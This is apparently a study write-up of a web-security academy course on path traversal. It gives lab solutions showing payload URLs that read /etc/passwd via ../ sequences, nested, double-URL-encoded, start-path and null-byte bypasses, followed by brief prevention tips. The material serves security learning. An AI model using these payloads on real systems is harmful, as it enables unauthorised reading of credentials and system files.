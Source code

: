 
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

## Example

Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:

`<img src="/loadImage?filename=218.png">`

The `loadImage` URL takes a `filename` parameter and returns the contents of the specified file. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:

`/var/www/images/218.png`

This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

The sequence `../` is valid within a file path, and means to step up one level in the directory structure. The three consecutive `../` sequences step up from `/var/www/images/` to the filesystem root, and so the file that is actually read is:

`/etc/passwd`

###### Lab: File path traversal, simple case

- Just open an image in another tab:

```http
https://0aef00e40444983780e7c207009c002e.web-security-academy.net/image?filename=7.jpg
```

- Change the filename in:

`/image?filename=../../../../etc/passwd`

## Common obstacles to exploiting path traversal vulnerabilities

Many applications that place user input into file paths implement defenses against path traversal attacks. These can often be bypassed.

If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

### Absolute file path bypass

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

###### Lab: File path traversal, traversal sequences blocked with absolute path bypass

This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

- Open an image in another tab:

```http
https://0aef00e40444983780e7c207009c002e.web-security-academy.net/image?filename=7.jpg
```

- Change the filename in:

`/etc/passwd`

### Nested traversal sequences bypass

You might be able to use nested traversal sequences, such as `....//` or `....\/`. These revert to simple traversal sequences when the inner sequence is stripped.
###### Lab: File path traversal, traversal sequences stripped non-recursively

The application strips path traversal sequences from the user-supplied filename before using it.

```http
https://0a0000cd0491ce578327d7a000060052.web-security-academy.net/image?filename=....//....//....//....//etc//passwd
```


### Encoded traversal sequence bypass 

In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively.

###### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

- Open an image in another tab and double URL-encode the path traversal sequence:

```http
https://0a99007f03a1856384c2bd1200a3007c.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

### Validation of start path bypass

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.

###### Lab: File path traversal, validation of start of path

- Open an image in another tab and use the usual path traversal sequence but starting with `/var/www/images`:

```http
https://0aad00a604c81e9580a0f8e300df0028.web-security-academy.net/image?filename=/var/www/images/../../../../etc/passwd
```

### File extension with null byte bypass

An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`

###### Lab: File path traversal, validation of file extension with null byte bypass

- Open an image in another tab and use the usual path traversal sequence but ending with a null byte `%00` and a valid file extension  `.jpg`:

```http
https://0a7a000803b96fc6817fd9dc000a00e8.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```

## Prevention

- Don’t use strings! Use instead filesystem APIs
- Get the canonical form of the path and validate it against your business rules



